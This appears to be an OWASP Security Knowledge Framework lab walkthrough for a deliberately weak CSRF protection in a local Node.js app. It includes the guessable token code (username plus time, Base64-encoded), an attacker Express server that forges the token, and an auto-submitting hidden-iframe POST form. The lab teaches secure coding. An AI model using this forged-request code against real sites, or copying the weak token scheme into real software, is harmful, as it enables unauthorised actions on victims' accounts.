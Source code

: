 # KBID 5 - CSRF - Weak

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

CSRF is an attack that tricks the victim into submitting a malicious request. It inherits the identity and privileges of the victim to perform an undesired function on the victim's behalf. For most sites, browser requests automatically include any credentials associated with the site, such as the user's session cookie, IP address, Windows domain credentials, and so forth. Therefore, if the user is currently authenticated to the site, the site will have no way to distinguish between the forged request sent by the attacker and a legitimate request sent by the victim.

CSRF attacks target functionality that causes a state change / data mutation on the server, such as changing the victim's email address or password, or purchasing something. Forcing the victim to retrieve data doesn't benefit an attacker because the attacker doesn't receive the response, the victim does. As such, CSRF attacks target state-changing requests.

It's sometimes possible to store the CSRF attack on the vulnerable site itself. Such vulnerabilities are called "stored CSRF flaws". This can be accomplished by simply storing an IMG or IFRAME tag in a field that accepts HTML, or by a more complex cross-site scripting attack. If the attack can store a CSRF attack in the site, the severity of the attack is amplified. In particular, the likelihood is increased because the victim is more likely to view the page containing the attack than some random page on the Internet. The likelihood is also increased because the victim is sure to be authenticated to the site already.

Lets start the application and login with the default credentials.

```
username : admin
password: admin
```

PRINTSCREEN PLACEHOLDER

When we are loggedin to the application we can see that we can set our favorite color and this will be stored in the session of the user.

PRINTSCREEN PLACEHOLDER

If we inspect the request with an intercepting proxy we can see that the application is performing a POST request that results in a data mutation, storing our favorite color into the session of the user and displaying this back to the user in the HTML website.

PRINTSCREEN PLACEHOLDER

Also we can see that the application is using a csrf_token

```html
    <form method="post" action="/update">
        <input type="hidden" class="form-control" name="csrf_token" value="<%=csrf_token %>">
        <input type="text" class="form-control" name="color" placeholder="favorite color"/><br/>
        <button class="btn btn-primary" type="submit">Submit Button</button></div>
    </form>
```

Looks like it's Base64 encoded, try decode it.

PRINTSCREEN PLACEHOLDER

The csrf token is simply username + time.

Checking the application code we can how this csrf_token is being implemented.

```javascript
  const username = req.body.username;
  const password = req.body.password;
  const sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  db.get(sql, [username, password], (err, row) => {
    if (row) {
      const date = new Date();
      const time = date.getHours() + ":" + date.getMinutes();
      let csrf_token = username + time;
      session = req.session;
      session.userId = row.UserId;
      session.loggedIn = true;
      session.csrf_token = Buffer.from(csrf_token).toString("base64");
```

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious CSRF using a POST request from and sending the weak csrf_token with. We could achieve this by creating the following express application:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  const date = new Date();
  const time = date.getHours() + ":" + date.getMinutes();
  const csrf_token = "admin" + time;
  const encoded_csrf_token = Buffer.from(csrf_token).toString("base64");
  res.render("evil.ejs", { csrf_token: encoded_csrf_token });
});

app.use(function (req, res) {
  res.status(404).render("404.ejs");
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.

```text
$ npm install express ejs
```

Of course you can also run your app on whatever service you want it does not have to be nodejs express.

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious CSRF POST request.

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form
  method="POST"
  action="http://localhost:5000/update"
  target="csrf-frame"
  id="csrf-form"
>
  <input type="hidden" name="csrf_token" value="<%= csrf_token %>" />
  <input type="hidden" name="color" value="Hackzord!" />
  <input type="submit" value="submit" />
</form>
<script>
  document.getElementById("csrf-form").submit();
</script>
```

Save the snippet above to &gt; views/evil.ejs and run the command below to start our evil application.

```text
$ node evil_server.js
```

Now when we have in the browser tab our active session of the application we can open a new tab where we will load our evil page we just created.

```text
http://localhost:1337/
```

This will now create a POST request to the application and changing the value of blue to the new value of 'Hackzord!' As you can see the Referer is set to our evil website where the request originated from and we have our forged csrf_token with the request.

PRINTSCREEN PLACEHOLDER

Also when we refresh the original page of the application we can see that the new vaulue has been replaced with the content of our evil app.

PRINTSCREEN PLACEHOLDER

## Additional sources

https://owasp.org/www-community/attacks/csrf
